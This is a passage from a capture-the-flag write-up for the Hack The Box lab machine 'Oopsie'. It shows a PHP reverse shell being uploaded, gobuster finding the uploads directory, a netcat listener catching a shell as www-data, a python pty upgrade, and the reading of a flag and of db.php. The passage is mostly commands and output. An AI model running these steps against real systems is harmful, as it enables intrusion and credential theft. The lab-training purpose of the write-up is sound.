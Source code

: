# Uploading PHP-Reverse-Shell
Lets try uploading a php-reverse-shell downloaded from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)! (to extract the tar file, use ```tar xvzf file.tar.gz```)

But wait.. we don’t know where the file will be uploaded to on the website. So lets use `gobuster` to find out!

```bash
$ gobuster dir -u http://10.10.10.28 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.28
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/01 11:59:44 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.28/images/]
/themes               (Status: 301) [Size: 311] [--> http://10.10.10.28/themes/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.28/uploads/
```
Now that we know the file will be uploaded to `uploads`, we can run a listener ```nc -nlvp 1234``` and curl the php file that we uploaded ```curl http://10.10.10.28/uploads/php-reverse-shell.php```
Navigate to `http://10.10.10.28/uploads/php-reverse-shell.php` and our listener will be able to get a shell

```bash
nc -nlvp 1234           
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.28.
Ncat: Connection from 10.10.10.28:37356.
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 04:24:15 up  2:06,  0 users,  load average: 0.07, 0.03, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Since this is just a simple shell, lets use this command to upgrade it ```python3 -c 'import pty; pty.spawn("/bin/bash")'```.

First, lets view the user.txt file!
```bash
www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```
Then, lets proceed to check the website folders at ```/var/www/html```
```bash
www-data@oopsie:/home/robert$ cd /var/www/html/cdn-cgi/login
cd /var/www/html/cdn-cgi/login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
```